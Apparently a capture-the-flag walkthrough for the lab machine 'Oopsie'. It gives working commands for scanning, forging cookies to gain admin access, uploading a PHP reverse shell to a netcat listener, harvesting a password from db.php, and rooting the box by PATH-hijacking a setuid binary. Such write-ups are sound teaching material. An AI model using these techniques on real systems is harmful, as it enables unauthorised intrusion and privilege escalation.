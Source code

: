 
# Oopsie 

## Initial Scanning

- Started with `nmap -sC -sV`
- Noticed open HTTP and SSH ports.
- Other filtered ports didn’t seem meaningful (look into it later).

## Web Application Analysis

- Used Burp Suite to inspect all HTTP requests by routing them through a proxy.
- Found a login page in the Target tab.
- Tried common username/password combinations — didn’t work.
- Observed two cookies: `role` and `user id`.
- Saw that query parameters in requests passed the account ID.
- Changed the account ID and got the admin user ID.
- Edited the cookie to:
  - Change role to `admin`
  - Set the admin user ID

### Result
- Gained access to a new file upload tab.
- Uploaded a PHP reverse shell from `/usr/share/webshells/php/php-reverse-shell.php` (no validation on file upload).

## Directory Brute Forcing

```bash
gobuster dir --url http://10.129.108.104/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php
```

- Found `/upload` directory (access denied directly).
- Ran Netcat listener: `nc -lvnp 1234`
- Accessed uploaded file via: `http://{target}/uploads/{filename}`
- Got a dumb shell.

## Upgrading Shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Credential Discovery

- Explored: `/var/www/html/cdn-cgi/login`
- Used: `cat * | grep -i passw*`
- Found password: **[REDACTED]**

## User Escalation

- Found user `robert` in `/etc/passwd`
- Tried `su robert` — password incorrect.
- Found a different password in `db.php`: `M3g4C0rpUs3r!`
- Logged in as `robert` and retrieved user flag from home directory.

## Privilege Escalation

- Tried `sudo -l` — no sudo privileges.
- Used `id` and found user in group: `bugtracker`
- Searched for files owned by `bugtracker`:

```bash
find / -group bugtracker 2>/dev/null
```

- Found: `/usr/bin/bugtracker`
- Inspected file:

```bash
ls -la /usr/bin/bugtracker
file /usr/bin/bugtracker
```

- Noted `setuid` bit — allows execution with root privileges.

## Exploiting `bugtracker` Binary

- Created fake `cat` in `/tmp` with contents:

```bash
#!/bin/sh
/bin/sh
```

- Made it executable: `chmod +x cat`
- Modified `PATH`:

```bash
export PATH=/tmp:$PATH
```

- Ran `/usr/bin/bugtracker` — gained root shell.

## Root Flag

- Retrieved root flag: **[REDACTED]**

## Notes

- **winPEAS**: Local enumeration for privilege escalation.
- **psexec.py**: Authenticate and get a shell with high privileges (SMB-based).
- **SetUID**: Set owner user ID — lets a non-root user execute as root.
